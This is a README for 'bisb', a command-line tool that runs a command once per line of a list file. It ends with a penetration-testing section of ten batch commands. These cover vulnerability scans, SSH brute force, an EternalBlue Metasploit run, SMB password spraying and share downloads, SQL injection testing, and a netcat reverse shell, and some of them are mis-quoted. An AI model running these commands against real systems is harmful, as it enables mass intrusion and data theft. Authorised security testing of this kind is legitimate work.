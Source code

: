 # Batch-is-Better

![bisb Logo](https://github.com/GTekSD/Batch-is-Better/assets/55411358/efbe645c-8392-46b0-a52e-108c87e30f82)

**bisb (Batch is Better)** is a command-line tool designed to simplify batch processing tasks by executing commands listed in files. It enhances script management and execution, making batch operations more straightforward and efficient.

## Features

- **Execute Commands from Files**: Allows users to execute commands listed in text files.
- **Interactive Banner**: Colorful and informative banner for a visually appealing interface.
- **Customizable Examples**: Includes 15 unique examples demonstrating various use cases.
- **Usage Guidance**: Detailed usage instructions and examples provided with `-h` or `--help`.

## Installation

To install **bisb**, follow these steps:

1. **Download** the latest release from the [Releases page](https://github.com/GTekSD/Batch-is-Better/releases).
2. **Copy** the downloaded `bisb` script to `/usr/bin` to make it executable system-wide:
   ```bash
   sudo cp bisb /usr/bin/bisb
   sudo chmod +x /usr/bin/bisb
   ```

## Usage

To use **bisb**, follow these steps:

- Run `bisb` with your desired command and a filename containing the list of items to process:
  ```bash
  bisb "<command>" <filename.txt>
  ```

- For more information and examples, use the `-h` or `--help` flag:
  ```bash
  bisb -h
  ```

## Examples

Here are some examples of how to use **bisb**:

1. System Administration:
   ```bash
   bisb "sudo systemctl restart service" server_list.txt
   ```

2. Data Processing:
   ```bash
   bisb "python process_data.py" data_files.txt
   ```

3. Configuration Management:
   ```bash
   bisb "ansible-playbook deploy.yml" environments.txt
   ```

## Contributing

Contributions to **bisb** are welcome! Please feel free to [open an issue](https://github.com/GTekSD/Batch-is-Better/issues) or [submit a pull request](https://github.com/GTekSD/Batch-is-Better/pulls) for enhancements or bug fixes.


## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

Developed with ❤️ by [Сухас Дхолз](https://gteksd.github.io/) for [GTekSD](https://github.com/GTekSD/).

-----------------

# In Penetration Testing

To demonstrate how **bisb (Batch is Better)** can be highly useful in a pentesting scenario, here are 10 critical examples that simplify complex tasks:

### 1. **Automated Vulnerability Scanning**
```
$ bisb "nmap -sV --script vuln" target_list_with_ports.txt
```
- This command runs a vulnerability scanning on specific ports on multiple targets, this is the quickest way to complete a full scan.
- List.txt should be in this format:
  192.168.1.100 -p 8080
  192.168.1.200 -p 1433

### 2. **Brute Force Attack**
```
$ bisb "hydra -L usernames.txt -P passwords.txt ssh://192.168.1.100" servers.txt
```
- Automates brute force attacks on multiple SSH servers, saving time and effort.

### 3. **Automated Exploit Execution**
```
$ bisb "msfconsole -q -x 'use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS' $line; run" targets.txt
```
- Automatically runs the EternalBlue exploit on a list of vulnerable targets.

### 4. **Mass Password Spraying**
```
$ bisb "crackmapexec smb $line -u users.txt -p password123" targets.txt
```
- Executes password spraying across multiple SMB servers, helping identify weak passwords.

### 5. **File Enumeration and Extraction**
```
$ bisb "smbclient //$line/shared -c 'prompt OFF; recurse ON; mget *'" smb_servers.txt
```
- Recursively downloads files from shared folders on multiple SMB servers.

### 6. **Batch Web Application Testing**
```
$ bisb "nikto -h $line" web_targets.txt
```
- Runs Nikto web server vulnerability scans on a list of web applications.

### 7. **Automated Directory Bruteforcing**
```
$ bisb "dirb http://$line /usr/share/wordlists/dirb/common.txt" web_targets.txt
```
- Uses Dirb to brute force directories on multiple web applications, revealing hidden paths.

### 8. **SQL Injection Testing**
```
$ bisb "sqlmap -u http://$line --batch" sql_targets.txt
```
- Automates SQL injection testing across various web applications.

### 9. **Network Reconnaissance**
```
$ bisb "netdiscover -i eth0 -r $line/24" subnets.txt
```
- Discovers live hosts within multiple subnets, crucial for network mapping.

### 10. **Automated Reverse Shell Deployment**
```
$ bisb "nc -e /bin/sh 192.168.1.200 4444" target_list.txt
```
- Establishes reverse shells on multiple targets for remote control.

### Summary
These examples show how **bisb (Batch is Better)** can automate repetitive and critical tasks during a pentest, making the process more efficient and less error-prone. It saves time, increases productivity, and ensures comprehensive coverage across multiple targets.
